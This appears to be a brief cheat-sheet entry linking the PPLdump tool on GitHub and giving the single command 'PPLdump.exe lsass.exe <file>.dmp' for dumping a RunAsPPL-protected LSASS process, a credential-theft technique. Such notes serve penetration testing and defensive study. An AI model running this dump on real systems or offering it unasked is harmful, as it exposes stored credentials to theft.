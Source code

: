 ### Source
https://github.com/itm4n/PPLdump  

### Dump RunAsPPL protected lsass process
```
PPLdump.exe lsass.exe <file>.dmp
```

